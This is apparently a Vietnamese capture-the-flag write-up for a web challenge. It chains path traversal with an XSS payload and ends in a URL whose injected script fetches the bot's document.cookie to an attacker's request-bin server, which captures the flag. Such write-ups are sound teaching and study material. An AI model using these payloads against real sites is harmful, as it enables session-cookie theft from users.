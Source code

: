 * Okay từ đó mình sẽ thử payload

```http://127.0.0.1/view?note=<note_id>&name=....//....//....//contact%3fxss=%3Cimg%20src=x%20onerror=alert(1)%3E```

Sau khi chạy thì mình nhận được lỗi sau 

![image](https://hackmd.io/_uploads/HJXS_9yV1x.png)

* Mình tìm error Logging failed và nó ở trong đoạn code này 

```js=
.then(response => response.json())
            .then(data => {
                // Does the log entry data look OK?
                document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
                document.getElementById("debug-content-section").style.display = "block";
            })
            .catch(error => console.error("Logging failed:", error));
```

* Có lẽ phần debug để tác giả sử dụng nhưng đã bị comment lại khi đưa lên nên mình sẽ uncomment nó trong note 

```js=

```

![image](https://hackmd.io/_uploads/ByUmYq1EJg.png)

* Sau khi tạo lại note mới và sử dụng payload cũ thì mình nhận được kết quả sau

![image](https://hackmd.io/_uploads/HkPEt5y4Jg.png)

* Yeah ! Everything works fine. Việc của mình là chỉnh lại payload để fetch cookie từ bot thông qua /report thôi 

```http://127.0.0.1/view?note=<note_id>&name=....//....//....//contact%3fxss=%3Cimg/src/onerror=fetch(%27<request_bin_server>/?%27%2bdocument.cookie)%3E```

Kết quả sau khi submit

![image](https://hackmd.io/_uploads/ryvyockNJl.png)


Well, có vấn đề sau khi mình submit nên mình sẽ đọc lại /report

![image](https://hackmd.io/_uploads/H1t4oqJE1l.png)

có thể thấy noteid sẽ lấy 36 ký tự cuối của url nên mình sẽ đổi payload lại là 

```http://127.0.0.1/view?name=....//....//....//contact%3fxss=%3Cimg/src/onerror=fetch(%27<request_bin_server>/?%27%2bdocument.cookie)%3E&note=<note_id>```

Sau khi chạy lại thì mình cũng submit thành công

![image](https://hackmd.io/_uploads/HkkZ29JEke.png)

Kiểm tra server ở đây mình dùng webhook để catch request và nhận được request sau chứa flag 

![image](https://hackmd.io/_uploads/H1QX39k41e.png)

Flag : INTIGRITI{plz_solve_locally_first_THEN_repeat_on_remote_server}

## Greetings

![image](https://hackmd.io/_uploads/Skb2XBrNyg.png)

#### Source

```
